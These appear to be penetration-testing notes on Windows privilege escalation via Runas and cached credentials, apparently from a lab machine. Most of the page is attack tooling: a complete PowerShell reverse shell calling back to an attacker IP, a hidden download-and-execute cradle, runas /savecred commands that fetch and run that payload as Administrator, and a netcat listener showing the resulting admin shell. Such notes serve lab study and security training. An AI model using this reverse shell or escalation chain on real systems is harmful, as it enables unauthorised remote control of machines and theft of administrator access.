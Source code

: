 ```yaml
---
description: Windows Privilege Escalation using Runas.
---
```


# Runas (Stored Credentials)

Runas is a windows command line tool that allows users to run other tools, programs or commands with permissions of another user. If a user's credentials are cached in the system, the Runas command can be run using the /savecred flag which will automatically authenticate and execute the command as that user.

### Cmdkey

Cmdkey is a Windows command-line utility that is used to create, list, and delete stored user names and passwords or credentials.

With `cmdkey /list` we can retrieve a stored credential for "ACCESS\Administrator

```
C:\Users\security>cmdkey /list

Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

Windows may save credentials for several reasons

* sysadmin configured an application to run as an admin with /savecred specified
* sysadmin choose to use it to not repeatedly enter admin password
* run an application with elevated privileges.

{% hint style="info" %}
For a powershell reverse shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.4',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then host the ps1 file and call it from the target: `START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.4:8000/ps_rev.ps1')`

`START` will start a new process without creating a window for it and also operating independently of the original session, such as a Telnet session.
{% endhint %}

### Privilege escalation

<details>

<summary>Enumerate .lnk files for runas commands</summary>

```
> Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
> ForEach($file in gc .\shortcuts.txt) { Write-Output $file; gc $file |
Select-String runas }
```

</details>

To escalate privielges we can start powershelll using runas with ACCESS\administrator

```powershell
# runas
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.4:8000/ps_rev.ps1')"

# runas 
runas user passwd powershell.exe -r 10.10.14.9:1443
```

And on our listener we receive the connection

```
nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.98] 49171
whoami
zencorp\administrator
PS C:\Windows\system32> 
```

> So check cmdkey /list to check for stored credentials which can be used with runas, like `runas /user:ACCESS\Administrator`
